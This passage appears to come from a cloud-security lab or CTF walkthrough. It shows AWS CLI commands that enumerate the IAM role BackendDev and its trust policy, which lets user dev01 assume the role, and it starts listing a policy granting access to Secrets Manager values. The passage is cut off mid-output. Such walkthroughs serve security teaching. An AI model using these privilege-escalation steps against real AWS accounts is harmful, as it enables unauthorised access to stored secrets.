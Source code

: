 **Key Finding:** This policy grants our `dev01` user several read-only IAM permissions, specifically allowing it to get information about the `BackendDev` role and its associated policy, `BackendDevPolicy`. This is our next lead.

## 5\. Enumerating the `BackendDev` IAM Role

Using the permissions granted by the `dev01` policy, we can now investigate the `BackendDev` role.

```bash title="Get Role Details"
$ aws iam get-role --role-name BackendDev --profile iam_user
```

```json title="Output: BackendDev Role Details"
{
    "Role": {
        "RoleName": "BackendDev",
        "Arn": "arn:aws:iam::794929857501:role/BackendDev",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::794929857501:user/dev01"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        // ...
    }
}
```

:::info Privilege Escalation Path Found
The `AssumeRolePolicyDocument` (also known as a trust policy) explicitly allows our `dev01` user to assume the `BackendDev` role. This is a direct path to privilege escalation.
:::

Before we assume the role, let's find out what permissions it has by examining its attached policy, `BackendDevPolicy`.

```bash title="Get BackendDevPolicy Details"
$ aws iam get-policy-version --policy-arn arn:aws:iam::794929857501:policy/BackendDevPolicy --version-id v1 --profile iam_user
```

```json title="Output: BackendDevPolicy Document"
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "VisualEditor0",
                    "Effect": "Allow",
                    "Action": [
                        "ec2:DescribeInstances",
                        "secretsmanager:ListSecrets"
                    ],
                    "Resource": "*"
                },
                {
                    "Sid": "VisualEditor1",
                    "Effect": "Allow",
                    "Action": [
                        "secretsmanager:GetSecretValue",
```
